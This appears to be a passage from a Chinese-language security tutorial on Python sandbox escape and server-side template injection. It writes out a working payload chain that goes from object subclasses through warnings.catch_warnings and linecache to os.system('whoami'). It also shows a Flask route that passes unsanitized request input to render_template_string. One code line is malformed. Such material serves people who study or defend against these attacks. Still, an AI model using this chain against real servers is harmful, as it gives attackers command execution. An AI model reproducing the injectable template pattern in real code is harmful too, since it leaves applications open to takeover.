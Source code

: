 首先获取 warnings.catch_warnings 在 object 类中的位置

```python
import warnings
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
60
[].__class__.__base__.__subclasses__()[60]
<class 'warnings.catch_warnings'>
[].__class__.__base__.__subclasses__()[60].__init__.func_globals.keys()
['filterwarnings', 'once_registry', 'WarningMessage', '_show_warning', 'filters', '_setoption', 'showwarning', '__all__', 'onceregistry', '__package__', 'simplefilter', 'default_action', '_getcategory', '__builtins__', 'catch_warnings', '__file__', 'warnpy3k', 'sys', '__name__', 'warn_explicit', 'types', 'warn', '_processoptions', 'defaultaction', '__doc__', 'linecache', '_OptionError', 'resetwarnings', 'formatwarning', '_getaction']

```
查看 linecache(操作文件的函数）

```python
`[].__class__.__base__.__subclasses__([60].__init__.func_globals['linecache'].__dict__.keys()`
`['updatecache', 'clearcache', '__all__', '__builtins__', '__file__', 'cache', 'checkcache', 'getline', '__package__', 'sys', 'getlines', '__name__', 'os', '__doc__']`
 
```
可以看到这里调用了 os 模块, 所以可以直接调用 os 模块

```python
a=[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]

a
<module 'os' from '*****\python27\lib\os.pyc'>

```

接着要调用 os 的 system 方法, 先查看 system 的位置:

```python
a.__dict__.keys().index('system')
79
a.__dict__.keys()[79]
'system'
b=a.__dict__.values()[79]
b
<built-in function system>
b('whoami')
```
python模板注入ssti

![](https://img2018.cnblogs.com/blog/1545399/201910/1545399-20191013164020897-352800982.png)

```python
code = request.args.get('ssti')
    html = '''
        <h1>qing -SSIT</h1>
        <h2>The ssti is </h2>
            <h3>%s</h3>
        ''' % (code)
    return render_template_string(html)
```
